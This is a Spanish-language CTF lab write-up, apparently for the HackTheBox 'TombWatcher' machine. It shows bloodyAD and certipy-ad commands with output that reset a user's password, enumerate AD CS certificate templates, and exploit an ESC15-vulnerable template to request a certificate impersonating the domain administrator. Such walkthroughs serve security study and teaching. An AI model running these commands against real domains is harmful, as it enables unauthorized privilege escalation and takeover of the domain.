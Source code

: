 <img width="1920" height="1012" alt="image" src="https://github.com/user-attachments/assets/c692be60-59aa-4d75-8978-775e5aab9781" />

y vemos que tenemos privilegios sobre el usuario que restauramos, asi que vamos a cambiar su password

```bash
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb'  -u 'john' -p 'Darksblack10.' set password 'cert_admin' 'Darksblack100'
```

una vez cambiada la password vamos a chequear que certificados pueden ser vulnerables

```bash
certipy-ad find -u cert_admin -p "Darksblack100" -dc-ip 10.10.11.72
```
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
[*] Saving text output to '20250809233550_Certipy.txt'
[*] Wrote text output to '20250809233550_Certipy.txt'
[*] Saving JSON output to '20250809233550_Certipy.json'
[*] Wrote JSON output to '20250809233550_Certipy.json'
```
```bash
cat 20250809233550_Certipy.txt
```

<img width="1920" height="1012" alt="image" src="https://github.com/user-attachments/assets/4fefdbb6-9ef0-4dbe-b75e-879acbb776a5" />

conseguimos un posible vector de ataque, Principales problemas de seguridad en este `Template`

1. `EnrolleeSuppliesSubject: True` permite que el usuario que solicita el certificado defina el nombre del sujeto y los SANs
2. `Requires Manager Approval: False` Los certificados se emiten automáticamente sin revisión
3. Permisos de inscripción amplios
4. Resulta ser vulnerable a ESC15

Ahora para explotar una plantilla vulnerable a `ESC15` lo hacemos asi:

```bash
certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'Darksblack100' -dc-ip '10.10.11.72' -target 'tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```
>>> Con este comando de Certipy-ad estamos solicitando un certificado de ADCS con la finalidad de suplantar al administrador del dominio (administrator@tombwatcher.htb) para autenticación en Kerberos/NTLM.
